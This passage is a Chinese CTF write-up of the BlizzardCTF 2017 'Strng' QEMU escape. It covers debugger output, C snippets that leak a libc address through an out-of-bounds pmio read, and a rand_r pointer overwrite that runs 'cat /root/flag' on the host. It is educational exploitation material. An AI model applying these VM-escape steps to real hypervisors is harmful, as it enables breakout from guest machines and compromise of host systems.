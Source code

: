 
##### 目标1: 断点`b *strng_mmio_write` 写入 "cat /root/flag" 是否成功

b *strng_mmio_write

 ► 0x557bb42de3e0 <strng_mmio_write>       push   rbp
断点触发后 根据函数`void __fastcall strng_mmio_write(STRNGState *opaque, hwaddr addr, uint64_t val, unsigned int size)`
查看rdi 为参数1 地址 0x557bb64007a0，先确定regs在便宜0xAF4的位置

pwndbg> telescope 0x557bb64007a0+0xaf4
00:0000│   0x557bb6401294 ◂— 0x0
01:0008│   0x557bb640129c ◂— 'cat /root/flag'
02:0010│   0x557bb64012a4 ◂— 0x67616c662f74 /* 't/flag' */

##### 目标2：leak libc

使用oob_read 确定读取函数的偏移，pmio_read 返回 opaque->regs[opaque->addr >> 2], 
srand_offset = 0xBF8 , regs = 0xAF4 , 因此opaque->addr >>2 = (0xbf8-0xaf4)/4 , opaque->addr = 0x104
但是每次只能读出4个字节，第二次用0x108读出后半部分
```
   uint64_t srand_addr1 = oobread(0x104);
   uint64_t srand_addr2 = oobread(0x108);
   uint64_t srand_addr = srand_addr1 + srand_addr2<<32;
   printf("leaking srandom addr: 0x%llx\n",srandom_addr);
```

随后覆盖rand_r 指针，只覆盖低4字节即可。
计算偏移 以0x104为srand的低4字节算，rand_r 与其相差0x10 ,则偏移为0x114

tips: 有一个小坑在两个地址相加时，移位操作要加括号，否则地址不对
`uint64_t srand_addr = srand_addr1 + (srand_addr2<<32);`

最终运行结果，成功读取到了宿主机上的flag文件内容
```
ubuntu@ubuntu:~$ sudo ./exp
sudo: unable to resolve host ubuntu
mmio_mem @ 0xb7783000
cat: -: Resource temporarily unavailable
leaking srandom addr: 0x7f427ce2e8d0
leaking srandom addr1: 0x7ce2e8d0
leaking srandom addr2: 0x7f42
leaking libc addr: 0x7f427cdf4000
THIS{qemu_flag}
```

### 参考

https://xz.aliyun.com/t/6562
[DOM编程模型](https://blog.csdn.net/u011364612/article/details/53485856)
https://uaf.io/exploitation/2018/05/17/BlizzardCTF-2017-Strng.html
http://www.phrack.org/papers/vm-escape-qemu-case-study.html


